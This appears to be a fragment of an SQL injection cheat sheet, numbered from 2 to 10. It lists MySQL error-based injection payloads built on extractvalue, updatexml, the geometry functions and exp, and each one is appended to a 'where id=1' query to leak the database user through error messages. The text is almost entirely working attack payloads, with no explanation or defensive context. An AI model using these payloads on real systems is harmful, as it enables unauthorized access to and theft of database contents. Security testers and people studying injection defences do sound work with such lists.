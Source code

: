 
2.extractvalue()

```sql
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
```
  

  

3.updatexml()

```sql
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
```

  

4.geometrycollection()

```sql
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
```

  

5.multipoint()

```sql
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
```

  

6.polygon()

```sql
select * from test where id=1 and polygon((select * from(select * from(select user())a)b));
```

  

7.multipolygon()

```sql
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
```

  

8.linestring()

```sql
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
```

  

9.multilinestring()

```sql
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
```

  

10.exp()

```sql
select * from test where id=1 and exp(~(select * from(select user())a));
```
